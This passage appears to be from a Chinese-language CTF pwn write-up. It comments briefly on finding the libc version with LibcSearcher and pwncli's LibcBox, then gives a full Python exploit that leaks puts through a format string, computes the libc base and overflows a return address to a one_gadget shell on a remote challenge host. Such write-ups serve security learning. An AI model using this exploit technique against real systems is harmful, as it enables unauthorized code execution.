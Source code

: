 它搜到了十个版本的libc，但是LibcSearcher我记的仅仅是搜到了三个（不排除是我的LibcSearcher有问题）。

泄露出了libc基地址，那就随便打了，不过好像没法搜pop_rdi这个指令（不过可以把libc下载下来用Ropgadget来搜，不过有点麻烦），就直接用one_gadget打了(pwncli这个库模式只支持python3)

#### exp2

```python
#!/usr/bin/env python3
# coding:utf-8
from pwn import *
from pwncli import *
def pwn():
    context(arch='amd64', os='linux', log_level='debug')
    p = remote('39.99.242.16', 10000)
    over_flow = 0x400836
    puts_got_addr = 0x601018
    p.recvuntil(b'fmt\n')
    payload = b'%7$saaaa' + p64(puts_got_addr) + (0x78 - 16) * b'a' + p64(over_flow)
    p.sendline(payload)
    puts_addr = u64(p.recv(6).ljust(8,b'\x00'))#用%s泄露出来的地址应该用u64来接收
    print('puts_addr--------------->',hex(puts_addr))
    lb = LibcBox()
    lb.add_symbol('puts', puts_addr)#这个地方跟libcsearcher用法基本一样，下面也是去dump出来
    lb.search(download_so=1)
    libc_base = puts_addr - lb.dump('puts')
    one_addr = 0xf03a4 + libc_base
    payload = 0x78 * b'b' + p64(one_addr)
    p.sendline(payload)
    p.interactive()
pwn()
```




